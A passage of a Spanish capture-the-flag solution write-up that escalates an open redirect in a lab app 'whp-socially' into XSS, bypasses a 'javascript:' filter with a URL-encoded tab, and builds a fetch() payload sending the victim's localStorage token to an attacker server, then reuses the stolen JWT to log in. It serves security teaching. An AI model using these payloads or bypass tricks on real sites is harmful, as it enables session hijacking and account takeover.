









# Soluciones

## Etapa 1: Acceder con cualquier usuario

<details>
<summary>Mostrar</summary>

Para empezar, accedemos a http://whp-socially/ y nos encontramos con la siguiente pantalla:



Vemos que en el menú lateral izquierdo tenemos la opción de "Login", pero no es importante dado que no tenemos ninguna cuenta y no podemos registrarnos.

Si revisamos las publicaciones de la página, vemos que hay una publicación de un usuario llamado "admin" con un enlace que nos lleva a la página de Google.



Este enlace es relevante, porque no redirecciona directamente a Google, sino que usa un parámetro llamado "next" para redireccionar a la página que nosotros queramos.

Esto recuerda a una vulnerabilidad llamada "Open Redirect", que consiste en que un atacante puede redireccionar a un usuario a una página que no es la que el usuario espera, por ejemplo, a una página de phishing.

Para validar si esto es una vulnerabilidad, podemos manipular el parámetro "next", quedando el enlace de la siguiente manera:

http://whp-socially/?next=http://example.com



Y al acceder a este enlace, nos redirecciona a la página example.com, lo que confirma la vulnerabilidad.

Open Redirect es una vulnerabilidad muy común, normalmente no es muy peligrosa y en muchos casos se reporta con criticidad baja o incluso informativa. Sin embargo, hay casos en las que se puede explotar para realizar ataques más complejos, como por ejemplo, un Cross-Site Scripting (XSS). Un XSS permite que un atacante ejecute código JavaScript en el navegador del usuario. Vamos a verificar si esto es posible.

Para esto, tenemos que identificar cómo realiza la aplicación la redirección. Podemos usar Burp Suite para interceptar la petición y ver qué está pasando.



La aplicación redirecciona utilizando código JavaScript, más específicamente, con la propiedad "href" del objeto "window.location".

Cuando se redirecciona mediante JavaScript, y no mediante una cabecera HTTP "Location", se puede escalar el Open Redirect a un XSS. Esto resulta muy útil para Bug Bounty, porque los XSS se reportan con mayor criticidad que los Open Redirect, brindando una mayor recompensa.

Intentemos explotar esto. Primero, probemos si "javascript:" nos funciona, para ver si podemos ejecutar código JavaScript.



Al parecer, "javascript:" está bloqueado. No obstante, mediante el uso del carácter %09 (tabulador codificado en URL), podemos evadir los filtros.

Para esto, agregamos dicho carácter entre la primera y la última letra de la palabra "javascript", quedando de la siguiente manera:



Este carácter genera un espacio en blanco, que es ignorado por el navegador. Esta simple técnica, pero no tan conocida, me sirvió para evadir el WAF comercial de Imperva en un escenario de Bug Bounty.

Ahora, podemos ejecutar código JavaScript. Vamos a intentar llamar a la función "alert()" para ver si funciona.



Al parecer, la función "alert()" también está bloqueada. Sin embargo, podemos utilizar la función "print()", que genera una ventana de impresión.



¡Perfecto, funciona! Accedamos desde el navegador para confirmar que se ejecuta el código JavaScript. El enlace debe quedar de la siguiente manera:

http://whp-socially/?next=j%09avascript:print()



El código JavaScript se ejecuta correctamente. No obstante, no es muy útil, ya que solo genera una ventana de impresión. Vamos a intentar algo más interesante, como por ejemplo, robar la sesión del usuario.

Pero antes, necesitamos identificar cómo almacena la sesión / autenticación la aplicación. Normalmente, se almacena en una cookie, pero no siempre es así. Para determinar esto, revisamos los archivos JavaScript que se están ejecutando en la página principal. En este caso, tenemos un archivo llamado "main.js".


En este archivo, podemos ver que se llama a la función "localStorage.getItem('token')", que es la que se encarga de obtener el token del usuario desde el almacenamiento local del navegador.

En caso de que haya dudas, la diferencia principal entre las cookies y el almacenamiento local es que las cookies se almacenan en el navegador y el servidor, mientras que el almacenamiento local solo se almacena en el navegador.

Vamos a intentar robar el token del usuario. Necesitamos un servidor de atacante para recibir el token de la víctima. Para esto, podemos usar un servidor HTTP de Python, con el siguiente comando:

    python3 -m http.server 80


Ahora, vamos a ver cuál es la dirección IP de nuestra máquina de atacante. Para esto, podemos usar el comando "ifconfig". La dirección IP que nos interesa es la de la interfaz puente de Docker, con el nombre que empieza con "br-".


Con esta información, podemos crear un payload que utilice la función "fetch()" para enviar el token al servidor de atacante mediante una petición GET. El enlace quedaría de la siguiente manera:

```
http://whp-socially/?next=j%09avascript:fetch(%27http://172.18.0.1/%27%2blocalStorage.getItem(%27token%27))
```

**Importante:** Hay que reemplazar \<IP_ATACANTE\> por la dirección IP de la máquina de atacante. Además, hay que codificar el carácter "+" en URL, para que no se interprete como un espacio en blanco.

Si probamos el enlace, veremos que la petición no llega al servidor de atacante. Revisemos la consola del navegador para ver qué está pasando.


Al parecer, hay un error de sintaxis relacionado con el carácter "&". Para depurar esto, podemos enviar la petición al Repeater de Burp Suite y ver dónde está el problema.


El problema está en que el carácter "%27" (comilla simple codificada en URL) está siendo codificado mediante HTML Entities. Esto se debe a que la aplicación está haciendo un escape de los caracteres especiales.

Para solucionar esto, podemos ver si el resto de comillas están siendo escapadas también. Con JavaScript, podemos representar strings mediante comillas simples, dobles o backticks.


En este caso, los backticks no están siendo escapados. Por lo tanto, podemos utilizarlos para solucionar el problema. El enlace quedaría de la siguiente manera:

```
http://whp-socially/?next=j%09avascript:fetch(`http://172.18.0.1/`%2blocalStorage.getItem(`token`))
```

Si probamos el enlace, vemos que la petición llega al servidor de atacante.


Nos llega el valor "null", esto se debe a que no estamos autenticados, pero esto nos sirve para comprobar que la petición llega correctamente. Ahora, vamos a enviar la petición a la víctima, utilizando el servidor de explotación disponible en http://whp-exploitserver/.


Pulsamos el botón "Deliver URL to victim" para enviar el enlace a la víctima. El servidor de explotación simula la navegación de la víctima y vemos que el token llega correctamente al servidor del atacante.


Ahora, podemos utilizar el token para autenticarnos en la aplicación de http://whp-socially/. Abrimos la consola del navegador y ejecutamos el siguiente código JavaScript:

    localStorage.setItem('token', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzb2NpYWxseS1hcHAiLCJpZCI6NX0.<FIRMA>')

**Importante:** Hay que reemplazar \<FIRMA\> por la firma del token que hemos obtenido. Además, para que la consola nos deje pegar el código anterior, hay que escribir "allow pasting" justo antes de ejecutar el código.


Si recargamos la página, comprobamos que nos hemos autenticado correctamente con la cuenta de "ares".


</details>

## Etapa 2: Acceder como admin

<details>
<summary>Mostrar</summary>

</details>